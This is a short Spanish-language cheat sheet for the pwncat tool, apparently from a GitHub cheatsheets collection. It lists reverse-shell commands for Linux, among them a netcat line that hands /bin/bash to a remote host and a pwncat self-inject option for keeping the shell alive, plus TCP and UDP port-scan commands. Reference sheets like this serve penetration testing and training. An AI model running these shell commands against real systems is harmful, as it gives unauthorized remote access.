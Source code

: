 # Pwncat Cheat Sheet

#### Reverse Shell (Linux)

- `pwncat -l <Lisitening-Port> -vv`: Escuchando la conexión.

- `nc -e /bin/bash <Host> <Port>`: Conexión al host y mandamos la shell.

- `pwncat -l <Lisitening-Port> --self-inject /bin/bash:<Host>:<Port>`: Conexión al host y no perder el shell con CTRL + C.

- `pwncat -l <Lisitening-Port> -vv`: Recuperar la sesión si con el anterior comando se salió con CTRL + C.

#### Escanear Puertos TCP

- `pwncat -z <Host> 1-1000`: Escanear la IP del host con el rango de puertos.

#### Escanear Puertos UDP

- `pwncat -z <Host> 1-1000 -u`: Escanear la IP del host con el rango de puertos.

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)